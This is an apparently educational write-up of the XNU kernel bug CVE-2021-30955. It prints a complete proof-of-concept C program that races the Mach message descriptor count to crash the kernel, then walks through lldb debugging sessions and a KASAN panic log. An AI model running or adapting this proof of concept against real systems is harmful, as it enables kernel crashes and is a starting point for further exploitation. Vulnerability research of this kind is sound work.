# [Practice] Exploiting CVE-2021-30955

# **Bug analysis**

- poc.m

```cpp
#include <stdlib.h>
#include <stdio.h>
#include <pthread/pthread.h>
#include <mach/mach.h>

struct ool_msg  {
    mach_msg_header_t hdr;
    mach_msg_body_t body;
    mach_msg_ool_ports_descriptor_t ool_ports[];
};

mach_port_t new_mach_port() {
    mach_port_t port = MACH_PORT_NULL;
    kern_return_t ret = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
    if (ret) {
        printf("[-] failed to allocate port\n");
        return MACH_PORT_NULL;
    }
    
    mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);
    if (ret) {
        printf("[-] failed to insert right\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
    mach_port_limits_t limits = {0};
    limits.mpl_qlimit = MACH_PORT_QLIMIT_LARGE;
    ret = mach_port_set_attributes(mach_task_self(), port, MACH_PORT_LIMITS_INFO, (mach_port_info_t)&limits, MACH_PORT_LIMITS_INFO_COUNT);
    if (ret) {
        printf("[-] failed to increase queue limit\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
    return port;
}

#define N_DESC 1
#define N_PORTS 0
#define N_CORRUPTED 0x1000

struct ool_msg *msg;
mach_port_t dest, target;

void race_thread() {
    while (1) {
        // change the descriptor count back and forth
        // eventually the race will work just right so we get this order of actions:
        // count = N_DESC -> first copyin -> count = N_CORRUPTED -> second copyin
        msg->body.msgh_descriptor_count = N_CORRUPTED;
        msg->body.msgh_descriptor_count = N_DESC;
    }
}

void main_thread() {
    while (1) {
        // create a mach port where we'll send the message
        dest = new_mach_port();
    
        // send
        msg->hdr.msgh_remote_port = dest;
        int ret = mach_msg(&msg->hdr, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, msg->hdr.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        if (ret) printf("error: %s\n", mach_error_string(ret));
    
        // destroy the port to trigger the panic
        // note: don't receieve the message, that'll override ikm_header and stop the crash from happening
        printf("Destroying...\n");
        mach_port_destroy(mach_task_self(), dest);
        printf("Dead yet?\n");
    }
}

void poc() {
    printf("Crashing kernel...\n");
    
    // create a dummy port to send with the message
    target = new_mach_port();
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * N_PORTS);
    for (int i = 0; i < N_PORTS; i++) {
        ports[i] = target;
    }
    
    // set up an OOL ports message
    // make the size N_CORRUPTED because it's bigger, otherwise the message won't send and return an error.
    // this will make the allocation bigger but we don't care about that as the out of bounds will be done to the left of the buffer, not to the right
    msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg) + sizeof(mach_msg_ool_ports_descriptor_t) * N_CORRUPTED);
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)(sizeof(struct ool_msg) + sizeof(mach_msg_ool_ports_descriptor_t) * N_CORRUPTED);
    msg->hdr.msgh_remote_port = 0;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    // set the initial (smaller) descriptor count
    msg->body.msgh_descriptor_count = N_DESC;
    
    for (int i = 0; i < N_DESC; i++) {
        msg->ool_ports[i].address = ports;
        msg->ool_ports[i].count = N_PORTS;
        msg->ool_ports[i].deallocate = 0;
        msg->ool_ports[i].disposition = MACH_MSG_TYPE_COPY_SEND;
        msg->ool_ports[i].type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
        msg->ool_ports[i].copy = MACH_MSG_PHYSICAL_COPY;
    }
    
    // start the threads
    pthread_t thread, thread2;
    pthread_create(&thread, NULL, (void*)race_thread, NULL);
    pthread_create(&thread2, NULL, (void*)main_thread, NULL);
    
    pthread_join(thread, NULL);
}

int main(void) {
    poc();
    return 0;
}
```

First, within the `race_thread()` function of PoC code, 
I commented out the line `msg->body.msgh_descriptor_count = N_CORRUPTED;` to prevent kernel panic caused by triggering vulnerability. I also added `printf` and `getchar` functions before  `mach_msg` call. 

This was done intentionally to investigate in detail how kernel handles the process when `mach_msg` is invoked.

```cpp
void race_thread() {
    while (1) {
        // change the descriptor count back and forth
        // eventually the race will work just right so we get this order of actions:
        // count = N_DESC -> first copyin -> count = N_CORRUPTED -> second copyin
        // msg->body.msgh_descriptor_count = N_CORRUPTED;
        msg->body.msgh_descriptor_count = N_DESC;
    }
}
...
void main_thread() {
    while (1) {
        // create a mach port where we'll send the message
        dest = new_mach_port();
    
        // send
        msg->hdr.msgh_remote_port = dest;ㅡ
        printf("will going to call mach_msg... msg = %p, msg->hdr.msgh_size = 0x%x, press enter to continue\n", msg, msg->hdr.msgh_size);
        getchar();
        int ret = mach_msg(&msg->hdr, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, msg->hdr.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        ...       
}
```

`mach_msg_overwrite_trap` ’s function address was 0xfffffe00182174d0,

```cpp
...
Target 0: (kernel.kasan.vmapple) stopped.
(lldb) p/x mach_msg_overwrite_trap
(mach_msg_return_t (*)(mach_msg_overwrite_trap_args *)) 0xfffffe00182174d0 (kernel.kasan.vmapple`mach_msg_overwrite_trap at mach_msg.c:321)
```

When running program, the userspace msg address passed via `mach_msg` was 0x130008000.

```cpp
...
will going to call mach_msg... msg = 0x130008000, msg->hdr.msgh_size = 0x1001c, press enter to continue
```

Based on this, I set breakpoint. 
After proceeding past `getchar` call in program code, execution pauses as shown below.

```cpp
(lldb) br s -a 0xfffffe00182174d0 -c '*(unsigned long long *)$x0 == 0x130008000'
Breakpoint 22: where = kernel.kasan.vmapple`mach_msg_overwrite_trap at mach_msg.c:321, address = 0xfffffe00182174d0
Process 1 stopped
* thread #2, name = 'CPU1', stop reason = breakpoint 22.1
    frame #0: 0xfffffe00182174d0 kernel.kasan.vmapple`mach_msg_overwrite_trap(args=0xfffffe302cb0fd20) at mach_msg.c:321 [opt]
Target 0: (kernel.kasan.vmapple) stopped.
(lldb) 
```

When `mach_msg` is called from userspace, it’s handled by `mach_msg_overwrite_trap` in kernel.

The arguments passed to `mach_msg_overwrite_trap` are structured as follows.

The argument type is `struct mach_msg_overwrite_trap_args *`. 
In `msg` field, contains address allocated for `struct ool_msg *msg` content in PoC code, and the `option` field contains `MACH_SEND_MSG`(which defines 1). This is because `MACH_SEND_MSG | MACH_MSG_OPTION_NONE` was passed as `option` argument when calling `mach_msg` in PoC code.

Similarly, the `send_size` field directly reflects value of `msg->hdr.msgh_size` passed during  `mach_msg` call.

In short, `mach_msg_overwrite_trap` function can be seen as responsible for copying the message from userspace to kernel.

```cpp
(lldb) x/32gx $x0
0xfffffe302cb0fd20: 0x0000000130008000 0x0000000000000001
0xfffffe302cb0fd30: 0x000000000001001c 0x0000000000000000
0xfffffe302cb0fd40: 0x0000000000000000 0x0000000000000000
0xfffffe302cb0fd50: 0x0000000000000000 0x0000000000000000
0xfffffe302cb0fd60: 0x0000000000000000 0xfffffe0017d5f2e2
...

(lldb) p/x *(struct mach_msg_overwrite_trap_args *)$x0
(struct mach_msg_overwrite_trap_args) {
  msg_l_ = {}
  msg = 0x0000000130008000
  msg_r_ = {}
  option_l_ = {}
  option = 0x00000001
  option_r_ = {
    [0] = 0x00
    [1] = 0x00
    [2] = 0x00
    [3] = 0x00
  }
  send_size_l_ = {}
  send_size = 0x0001001c
  send_size_r_ = {
    [0] = 0x00
    [1] = 0x00
    [2] = 0x00
    [3] = 0x00
  }
  rcv_size_l_ = {}
  rcv_size = 0x00000000
  rcv_size_r_ = {
    [0] = 0x00
    [1] = 0x00
    [2] = 0x00
    [3] = 0x00
  }
  rcv_name_l_ = {}
  rcv_name = 0x00000000
  rcv_name_r_ = {
    [0] = 0x00
    [1] = 0x00
    [2] = 0x00
    [3] = 0x00
  }
  timeout_l_ = {}
  timeout = 0x00000000
  timeout_r_ = {
    [0] = 0x00
    [1] = 0x00
    [2] = 0x00
    [3] = 0x00
  }
  priority_l_ = {}
  priority = 0x00000000
  priority_r_ = {
    [0] = 0x00
    [1] = 0x00
    [2] = 0x00
    [3] = 0x00
  }
  rcv_msg_l_ = {}
  rcv_msg = 0x0000000000000000
  rcv_msg_r_ = {}
}
```

Since `option` argument was passed as `MACH_SEND_MSG`, will examine the corresponding conditional block first.

We can observe that `ipc_kmsg_get_from_user` is called. This function performs a few checks on  `size` argument and then calculates `len_copied` variable.

Here, `mach_msg_user_header_t` is merely a skeletal basic header (in which case the message is empty). In contrast, `mach_msg_user_base_t` corresponds to the header plus 4 bytes, which represents the minimum size for non-empty message.

After calculating `len_copied` variable, the base is copied from userspace via `copyinmsg`.



For reference, in the case of **complex messages** (which can contain Mach ports within descriptor structures in addition to raw data), those extra 4 bytes are occupied by  `mach_msg_body_t` structure, which consists of single field.

This descriptor count field specifies the number of descriptor structures to be sent, and the actual body data follows immediately after it.

Since we are interested in complex messages, will proceed based on this premise.



Anyway, as explained earlier, 
the base is copied from userland via `copyinmsg` as shown below.

```cpp
if (copyinmsg(msg_addr, (char *)&user_base, len_copied)) {
	return MACH_SEND_INVALID_DATA;
}
```

Next, the descriptor count is stored in variable.



Then, we reach the following code (keep this in mind):
`msg_addr += sizeof(user_base.header)`



Here, `msg_addr` (the userspace address of message) is updated to reflect that header has already been read, and—as can be seen in the following lines—that it is now time to read body data.
However, before reading the body, we must allocate sufficient space to hold the data based on what has been read so far.



Examining `ipc_kmsg_alloc` function, arguments passed are the message size (adjusted to reflect header size difference between kernel and userland) and descriptor count obtained from body structure (which is 0 for simple messages).

The first few lines are as shown in the figure below. First, to calculate the total size difference, the descriptor count (`user_descs`) is multiplied by `USER_DESC_MAX_DELTA`, and the result is stored in `max_delta`. Here, `USER_DESC_MAX_DELTA` represents the size difference of the descriptor structure between kernel and userland.

Next, to calculate the final size to be used for data allocation, `size` and `max_delta` are added together (along with `MAX_TRAILER_SIZE`, a constant irrelevant to our current context).



After calculating the final size to be used, `kalloc_data` is called to perform allocation.

Then, the data and size are stored in `ipc_kmsg` structure (kernel structure that contains the message, among other things).



The `ikm_set_header` function performs as follows.



Based on what we know about these values, we can perform the following calculation.



Therefore, `ikm_header` is set to point to (our data allocation area) + (the total sum of size differences between kernel and userland descriptor structures). This leaves gap immediately preceding `ikm_header`. While this might sound strange, remember that at this stage, data is being copied 'as is' from userland to the kernel, without any adjustments yet performed to account for structure size differences. As we will see later, once the necessary modifications to the data are complete, `ikm_header` will eventually be moved back to fill that gap.

Returning to `ipc_kmsg_get_from_user`, after the message is allocated, the code sets the header fields in the newly allocated `ikm_header`, and then reads the message body, storing it at `kmsg->ikm_header + 1` (i.e., immediately following the header).

Did you remember that `msg_addr` was incremented by `sizeof(user_base.header)`?
This second `copyinmsg` reads the descriptor count once again and stores it into `ikm_header`.


However, what happens if the descriptor count changes during this interval? Incorrect count will be stored instead!
This type of race condition is known as **TOCTOU** (Time-of-Check Time-of-Use), as the value of the variable being checked may differ between the time it is checked and the time it is used.
In this case, we use one descriptor count for allocation, but end up using a different count later.

Now we must examine the code that adjusts `ikm_header` to eliminate the gap (recall that `gap = user_descs * USER_DESC_MAX_DELTA`, which is **descriptor count * 4**).
This code path is `mach_msg_overwrite_trap` → `ipc_kmsg_copyin_from_user` → (finally) `ipc_kmsg_copyin_body`, located specifically here.
This code eliminates the gap preceding `ikm_header` by shifting all data using descriptor count (which has been altered due to the bug).

One method to trigger panic is to initially set the descriptor count to small value, and then change it to larger value after allocation has occurred. This causes `ikm_header` to shift left, eventually going out of bounds!



This concludes the explanation of the bug.
The summary of the bug described above is illustrated in the diagram below,


When executing original PoC code in KASAN-enabled kernel environment,
panic is triggered in `ipc_kmsg_copyin_body` due to out-of-bounds access.

- panic log

```cpp
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #3, name = 'CPU2', stop reason = breakpoint 1.1
    frame #0: 0xfffffe00127c7dd0 kernel.kasan.vmapple`panic(str="%s @%s:%d") at debug.c:872:2 [opt]
Target 0: (kernel.kasan.vmapple) stopped.
(lldb) bt
* thread #3, name = 'CPU2', stop reason = breakpoint 1.1
  * frame #0: 0xfffffe00127c7dd0 kernel.kasan.vmapple`panic(str="%s @%s:%d") at debug.c:872:2 [opt]
    frame #1: 0xfffffe00127e07f0 kernel.kasan.vmapple`kasan_report_internal.cold.1 at kasan-report.c:114:12 [opt]
    frame #2: 0xfffffe00127be8d0 kernel.kasan.vmapple`kasan_report_internal(p=<unavailable>, width=<unavailable>, access=<unavailable>, reason=<unavailable>, dopanic=true) at kasan-report.c:114:12 [opt]
    frame #3: 0xfffffe00127be43c kernel.kasan.vmapple`kasan_panic_report_internal(p=<unavailable>, width=<unavailable>, access=<unavailable>, reason=<unavailable>) at kasan-report.c:120:2 [opt] [artificial]
    frame #4: 0xfffffe00127be434 kernel.kasan.vmapple`kasan_crash_report(p=<unavailable>, width=<unavailable>, access=<unavailable>, reason=<unavailable>) at kasan-report.c:135:2 [opt]
    frame #5: 0xfffffe00127be664 kernel.kasan.vmapple`kasan_violation(addr=18446742080856211464, size=36, access=TYPE_MEMR, reason=REASON_POISONED) at kasan-report.c:191:2 [opt]
    frame #6: 0xfffffe00127c3640 kernel.kasan.vmapple`kasan_check_range(x=<unavailable>, sz=<unavailable>, access=<unavailable>) at kasan-classic.c:400:3 [opt] [artificial]
    frame #7: 0xfffffe00127bc790 kernel.kasan.vmapple`__asan_memmove(src=0xfffffe3000af4008, dst=0xfffffe3000af8004, sz=36) at kasan-memintrinsics.c:50:2 [opt]
    frame #8: 0xfffffe001100d77c kernel.kasan.vmapple`ipc_kmsg_copyin_body(kmsg=0xfffffe18bbddcc90, space=0xfffffe18bd18bd18, map=0xfffffe18bd062a38, optionp=0xfffffe302d6afbe0) at ipc_kmsg.c:3802:3 [opt]
    frame #9: 0xfffffe001100d764 kernel.kasan.vmapple`ipc_kmsg_copyin_from_user(kmsg=0xfffffe18bbddcc90, space=0xfffffe18bd18bd18, map=0xfffffe18bd062a38, priority=<unavailable>, optionp=0xfffffe302d6afbe0, filter_nonfatal=<unavailable>) at ipc_kmsg.c:3971:8 [opt]
    frame #10: 0xfffffe0011047860 kernel.kasan.vmapple`mach_msg_overwrite_trap(args=<unavailable>) at mach_msg.c:362:8 [opt]
    frame #11: 0xfffffe001144ec50 kernel.kasan.vmapple`mach_syscall(state=0xfffffe18be6014b0) at bsd_arm64.c:276:11 [opt]
    frame #12: 0xfffffe0011469ab0 kernel.kasan.vmapple`handle_svc(state=0xfffffe18be6014b0) at sleh.c:2411:3 [opt] [inlined]
    frame #13: 0xfffffe0011469a1c kernel.kasan.vmapple`sleh_synchronous(context=0xfffffe18be6014b0, esr=1442840704, far=4305322064) at sleh.c:743:3 [opt]
    frame #14: 0xfffffe001146879c kernel.kasan.vmapple`fleh_synchronous + 40
    frame #15: 0x00000001b96bd954
    frame #16: 0x00000001003907ec
    frame #17: 0x00000001b96f94ec
```

```cpp
KCOV: Disabling coverage tracking. System panicking.
IOPlatformPanicAction -> ApplePVPanicMMIO
IOPlatformPanicAction -> AppleVirtIOUSBDeviceController
panic(cpu 2 caller 0xfffffe00127e07f0): KASan: invalid 36-byte load from 0xfffffe3000af4008 [HEAP_LEFT_RZ]
 Shadow             0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f
 ffffffc60015e7b0: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb 
 ffffffc60015e7c0: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb 
 ffffffc60015e7d0: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb 
 ffffffc60015e7e0: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb 
 ffffffc60015e7f0: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb 
 ffffffc60015e800: fa[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa fa 
 ffffffc60015e810: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa 
 ffffffc60015e820: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa 
 ffffffc60015e830: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa 
 ffffffc60015e840: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa 
 ffffffc60015e850: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa 

 @kasan-report.c:114
Debugger message: panic
Device: VMA2MACOS
Hardware Model: VirtualMac2,1
ECID: AA5B0039AFD60287
Boot args: -v serial=3
Memory ID: 0x0
OS release type: User
OS version: 21A559
Kernel version: Darwin Kernel Version 21.1.0: Wed Oct 13 17:25:13 PDT 2021; root:xnu_kasan-8019.41.5~1/KASAN_ARM64_VMAPPLE
Fileset Kernelcache UUID: B03A5B6975F0191C031E9FBF59604799
Kernel UUID: 9EA27AEB-5869-322D-AA73-F00EF950FFCB
iBoot version: iBoot-7429.41.5
secure boot?: NO
Paniclog version: 13
KernelCache slide: 0x0000000009538000
KernelCache base:  0xfffffe001053c000
Kernel slide:      0x0000000009aa8000
Kernel text base:  0xfffffe0010aac000
Kernel text exec slide: 0x0000000009fc4000
Kernel text exec base:  0xfffffe0010fc8000
mach_absolute_time: 0x53cbc9335
Epoch Time:        sec       usec
  Boot    : 0x69587c44 0x000c24ac
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x69587fed 0x000105fe

